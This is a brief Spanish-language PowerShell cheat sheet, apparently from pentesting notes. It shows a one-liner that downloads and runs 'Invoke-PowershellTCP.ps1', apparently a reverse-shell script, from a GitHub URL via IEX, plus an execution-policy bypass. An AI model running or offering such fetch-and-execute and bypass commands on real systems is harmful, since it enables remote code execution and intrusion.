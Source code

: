 # Powershell

Tags: #Windows #Powershell 

```powershell 
# Ejecutar un comando en powershell desde la terminal 'cmd' en Windows

❯ powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Omar/Scripts/main/Invoke-PowershellTCP.ps1')" 
```

```powershell
❯ Import-Module .\Script.ps1       # Importamos un modulo para utilizar los submodulos 
```

```powershell
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en PS
 	# ep = Ejecutar politicas 
❯ .\script.ps1       # Ejecutar el script en PS
```